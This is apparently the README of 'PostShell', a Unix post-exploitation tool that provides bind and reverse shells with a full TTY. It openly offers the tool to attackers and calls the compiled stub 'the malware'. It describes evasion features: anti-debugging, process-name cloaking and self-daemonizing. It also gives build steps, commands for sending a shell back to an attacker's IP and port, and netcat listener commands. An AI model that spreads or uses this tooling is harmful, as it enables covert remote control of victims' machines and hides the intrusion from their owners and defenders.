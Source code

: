 # PostShell
PostShell is a post-exploitation shell that includes both a bind and a back connect shell. It creates a fully interactive TTY which allows for job control. The stub size is around 14kb and can be compiled on any Unix like system.

# ScreenShots
![Screenshot](https://github.com/rek7/postshell/blob/master/img01.png)
Banner and interaction with shell after a connection is started.

## Why not use a traditional Backconnect/Bind Shell?
PostShell allows for easier post-exploitation by making the attacker less dependant on dependencies such as Python and Perl. It also incorporates both a back connect and bind shell, meaning that if a target doesn't allow outgoing connections an operator can simply start a bind shell and connect to the machine remotely. PostShell is also significantly less suspicious than a traditional shell due to the fact both the name of the processes and arguments are cloaked.

## Features
+ Anti-Debugging, if ptrace is detected as being attached to the shell it will exit.
+ Process Name/Thread names are cloaked, a fake name overwrites all of the system arguments and file name to make it seem like a legitimate program.
+ TTY, a TTY is created which essentially allows for the same usage of the machine as if you were connected via SSH.
+ Bind/Backconnect shell, both a bind shell and back connect can be created.
+ Small Stub Size, a very small stub(<14kb) is usually generated.
+ Automatically Daemonizes

## Getting Started
1. Downloading: `git clone https://github.com/rek7/postshell`
2. Compiling: `cd postshell && sh compile.sh`
This should create a binary called "stub" this is the malware.

## Commands
```bash
$ ./stub
Bind Shell Usage: ./stub port
Back Connect Usage: ./stub ip port
$
```
## Example Usage
Backconnect:
```bash
$ ./stub 127.0.0.1 13377
```
Bind Shell:
```bash
$ ./stub 13377
```
## Recieving a Connection with Netcat
Recieving a backconnect:
```bash
$ nc -vlp port
```
Connecting to a bind Shell:
```bash
$ nc host port
```

## TODO:
+ Add domain resolution
